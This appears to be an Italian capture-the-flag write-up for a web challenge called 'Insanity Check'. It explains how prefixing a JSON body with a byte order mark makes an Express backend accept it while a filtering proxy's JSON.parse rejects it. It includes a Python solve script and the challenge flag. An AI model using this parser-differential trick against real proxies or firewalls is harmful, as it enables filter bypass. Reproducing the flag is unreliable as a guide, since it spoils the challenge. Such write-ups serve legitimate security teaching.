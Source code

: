 # Insanity Check

## Setup
```
cd build
docker compose up
```
Ora il sito è disponibile al link: [http://localhost:4567](http://localhost:4567).

## Descrizione
Esplorare il web può essere rischioso.
CodeVinci ha deciso di rendere il viaggio più sicuro.


*Author: [@benjamin](https://github.com/b3nj4m1no)*


## Soluzione
Lo scopo era creare un payload in json che rispecchiasse due condizioni:

* Il `backend`, ovvero un parser JSON di Express, lo doveva riconoscere come un JSON contenente una chiave `dammilaflag`.
* Il `proxy` non doveva riuscire ad analizzarlo come un valore JSON a `JSON.parse(req.body)`.
  
In conclusione, il seguente JSON li soddisfa, dove `\ufeff` è un [BOM (Byte Order Mark)](https://en.wikipedia.org/wiki/Byte_order_mark):
```js
\ufeff{"dammilaflag": true}
```

I framework web spesso consentono l'aggiunta di un BOM all'inizio dei valori JSON. 

Ad esempio, Fastify ed Express controllano un BOM a:

* Fastify: https://github.com/fastify/secure-json-parse/blob/v2.7.0/index.js#L20-L23
* Express: https://github.com/ashtuchkin/iconv-lite/blob/v0.6.3/lib/bom-handling.js#L39-L40

D'altra parte, `JSON.parse` non consente un BOM:
```js
> JSON.parse('{"dammilaflag": true}')
{ dammilaflag: true }
> JSON.parse('\ufeff{"dammilaflag": true}')
Uncaught SyntaxError: Unexpected token '', "{"dammil"... is not valid JSON
```

## Solve

```py
# Author: @benjamin

import requests

url = "http://localhost:4567"

payload = '\ufeff{"dammilaflag": true}'.encode('utf-8')  # UTF-8 BOM

r = requests.post(
    url,
    headers = {"Content-Type": "text/plain"},
    data = payload
)

print(r.text)
```

## Flag
`CodeVinciCTF{n3vEr_tRu5t_4_w4f_:drop_of_blood:}`
